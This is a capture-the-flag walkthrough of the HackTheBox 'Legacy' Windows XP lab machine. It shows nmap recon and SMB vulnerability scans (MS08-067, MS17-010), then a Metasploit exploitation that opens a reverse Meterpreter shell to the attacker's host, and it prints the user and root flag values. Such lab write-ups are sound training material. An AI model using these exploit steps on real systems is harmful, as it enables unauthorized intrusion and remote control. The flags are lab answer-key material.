```yaml
---
title: HackTheBox - Legacy
date: 2020-08-29 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [legacy]
image: /assets/img/Icons/legacy.png
---
```


<p align="center">
  <img width="200" height="200" src="/assets/img/Icons/legacy.png">
</p>

<center> <h1>HackTheBox - Legacy Walkthrough</h1> </center>

*A nice and easy first box - Windows XP, exploiting SMB vulnerabilities to gain SYSTEM access.*

***Machine IP = 10.10.10.4***

---

## RECON AND INFORMATION GATHERING
### Nmap


<pre>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:04 BST
Nmap scan report for 10.10.10.4
Host is up (0.055s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h31m22s, deviation: 2h07m16s, median: 4d23h01m22s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:47:5e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-24T16:05:41+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.16 seconds
</pre>

An old machine, running Windows XP 2000. SMB is discovered on port 139. Time to delve deeper. Scan for SMB vulnerabilities on port 139.

<pre>
root@kali:~# nmap --script smb-vuln* -p 139 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:23 BST
Nmap scan report for 10.10.10.4
Host is up (0.052s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
</pre>

Two CVE's returned:
- CVE-2008-4250 - smb-vuln-ms08-067
- CVE-2017-0143 - smb-vuln-ms17-010

Now onto Metasploit to gain access to machine.

---

## Exploiting
### Metasploit

<pre>

msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.4:1031) at 2020-07-19 12:31:48 +0100

meterpreter > 
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
</pre>

It seems we have access to the machine! Time to find some flags.

<pre>
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings\Administrator\Desktop>type root.txt	
993442d258b0e0ec917cae9e695d5713
</pre>

First machine completed! Although there is another option to exloit via ms17-010, the results would be the same. Was a nice easy machine to say the least. Onto the next!